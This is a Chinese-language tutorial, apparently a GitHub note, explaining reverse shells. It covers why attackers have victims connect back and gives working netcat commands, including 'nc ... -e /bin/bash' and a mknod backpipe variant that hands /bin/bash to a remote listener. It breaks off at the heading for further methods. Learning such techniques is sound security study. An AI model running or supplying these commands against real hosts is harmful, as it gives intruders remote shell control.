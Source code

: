 # 反弹Shell理解与应用

参考文章

[反弹shell是什么](https://www.zhihu.com/question/24503813)

[*Unix系统NC反弹shell的方法](http://www.91ri.org/9615.html)

## 1. 什么是反弹Shell

反弹Shell(Reverse Shell), 就是控制端监听在某TCP/UDP端口(一般是固定ip与固定端口), 被控端主动发起请求到该端口, 将其操作终端的输入输出与控制端连接起来. `reverse shell`与`telnet`，`ssh`等标准shell对应，本质上是网络概念的客户端与服务端的角色反转.

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做**正向连接**。远程桌面，web服务，ssh，telnet等等，都是正向连接。

那么什么情况下正向连接不太好用了呢？

1. 某客户机中了你的网马，但是它在局域网内，你直接连接不了。它的ip会动态改变，你不能持续控制。

2. 由于防火墙等限制，对方机器只能发送请求，不能接收请求。

3. 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。那么反弹就很好理解了， 攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

这种一般是你已经通过某种方式上传了你的木马并骗过了管理员让他执行了这个木马. 这里不讲如何上传木马, 只介绍反弹Shell的创建方式.

## 2. 反弹Shell的方法

通常的方法是使用`nc`命令, 控制端通过`nc`监听特定端口, 客户端通过各种方式将其本地的bash与控制端连接起来.

比如, 控制端执行如下命令监听本地2222端口.

```
$ nc -lv 2222
```

被控端可以通过如下命令建立与控制端的连接(不只是建立连接, 还需要将其本地的bash输入输出与控制端连接起来)

```
$ nc 172.16.26.109 2222 -e /bin/bash
```

`-e`的同名选项为`--exec`, 直接就将本地的bash暴露给了控制端. 但是为了安全，一般不会编译-e选项，也就无法反弹shell。但是可以变换一下思路，不直接使用NC反弹shell，而是反弹一个拥有shell权限的**管道**。

```
$ mknod backpipe p; nc 172.16.11.2 9999 0<backpipe | /bin/bash 1>backpipe
```

在控制端nc输出中你可以看到类似如下的信息时, 说明有被控端连接上来了.

```
$ nc -lv 2222
Connection from 172.16.9.89 port 2222 [tcp/EtherNet/IP-1] accepted
```

## 3. 各种反弹Shell的使用方法

